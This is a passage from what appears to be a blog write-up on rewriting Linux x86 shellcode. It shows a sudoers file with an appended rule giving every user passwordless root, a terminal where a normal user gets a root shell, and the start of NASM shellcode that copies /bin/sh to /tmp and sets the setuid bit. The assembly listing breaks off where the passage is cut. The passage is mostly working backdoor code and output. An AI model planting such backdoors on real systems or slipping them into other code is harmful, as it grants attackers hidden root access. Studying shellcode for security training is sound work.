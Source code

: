 ```
# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
ALL ALL=(ALL) NOPASSWD: ALL
```

We can see the file has been successfully appended, so we should be able to sudo now without a password. Let's test with our non-root user. 

```
absolomb@ubuntu:~$ sudo bash
root@ubuntu:~#
```

Perfect!

## cp /bin/sh /tmp/sh; chmod 4755 /tmp/sh

The next shellcode on the menu is shellcode that copies /bin/sh into /tmp and sets the setuid bit on it.

Original shellcode here: <http://shell-storm.org/shellcode/files/shellcode-540.php>

I decided to start from scratch here and simplify things significantly in comparison to the original shellcode. Once again the JMP CALL POP technique was used,  but this time for getting the commmand to be ran onto the stack. Original shellcode for this one was 126 bytes, mine accomplishes the same thing at 74 bytes. 

```nasm
global _start			

section .text
_start:

	push 0xb		; execve()		
	pop eax			;
	cdq    			; set edx to 0
	push edx		; NULL
	push word 0x632d	; "c-"	
	mov edi,esp		; point edi to stack
	push edx		; NULL
	push 0x68732f2f		; "hs//"
	push 0x6e69622f		; "/bin"
	mov ebx,esp		; point ebx to stack
	push edx		; NULL

	jmp short cmd

execute:

	push edi		; "c-"
	push ebx		; "/bin/sh"
	mov ecx,esp		; point to stack
	int 0x80		; execute execve


cmd:
```